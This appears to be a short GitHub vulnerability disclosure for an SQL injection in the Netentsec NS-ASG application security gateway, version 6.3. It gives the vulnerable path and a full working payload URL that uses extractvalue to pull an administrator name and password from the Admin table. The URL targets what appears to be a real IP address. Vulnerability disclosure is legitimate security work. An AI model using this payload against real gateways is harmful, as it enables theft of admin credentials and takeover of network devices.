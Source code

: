 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/admin/export_excel_user.php

https://1.85.53.53/admin/export_excel_user.php?GroupId=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))，


<img width="722" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/50585ea4-72f4-41ef-988e-5f1b0eadd5d7">
